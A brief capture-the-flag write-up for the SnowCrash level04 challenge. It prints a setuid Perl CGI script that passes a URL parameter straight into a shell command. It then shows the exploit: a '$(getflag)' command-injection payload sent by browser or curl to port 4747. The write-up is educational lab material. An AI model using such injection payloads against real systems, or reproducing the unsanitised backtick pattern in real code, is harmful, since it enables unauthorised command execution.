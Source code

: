 # Level04 Writeup

## Info 
User level04 has a setuid `flag04` perl script `level04.pl` in the root of the home directory.
 
`level04.pl`:
``` perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
 $y = $_[0];
 print `echo $y 2>&1`;
}
x(param("x"));
```
 
We can see with `nmap -p- IPOFVIRTUALMACHINE`, (We can get the ip of the snowcrash virtual machine with `ip a`), that indeed the port 4747 is open. Navigate with a web browser and we are greeted with a blank page.

## Victory

Navigating to `IPOFVIRTUALMACHINE:4747?x=$(getflag)` in a web browser or using curl gets us the flag. `curl localhost:4747\?x=\$\(getflag\)` is an example.

